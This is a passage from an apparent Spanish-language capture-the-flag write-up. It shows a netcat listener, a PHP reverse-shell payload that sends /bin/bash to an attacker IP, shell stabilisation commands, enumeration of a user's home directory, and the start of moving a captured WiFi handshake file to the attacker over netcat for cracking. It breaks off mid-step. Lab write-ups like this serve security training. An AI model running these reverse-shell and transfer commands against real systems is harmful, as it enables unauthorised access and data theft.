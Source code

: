     ```bash
    nc -nlvp 443
    ```

1. Con el exploit exploit_shell.py lanzamos una reverse shell

    ```php
    system('nc -e /bin/bash 10.10.14.20 443')
    ```

De esta manera, hemos ganado acceso al equipo.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <numero de filas> columns <numero de columnas>
```

### Investigamos la maquina {-}

```bash
cd /home
#Output
zeus

ls /home/zeus
#Output
airgeddon
```

### Airgeddon.cap crack with Aircrack-ng {-}

Airgeddon es una suite de utilidades para hacer auditorias wifi. Entrando en el repertorio airgeddon del usuario zeus encontramos
otro repertorio llamado captured. Filtrando el contenido del directorio aigedon por ficheros 
```bash
 find \-type f 
```
 encontramos un fichero 
**captured.cap** 

Vamos a transferir el fichero captured.cap a nuestro equipo de atacante

1. En la maquina de atacante

    ```bash
    nc -nlvp 443 > captured.cap
    ```
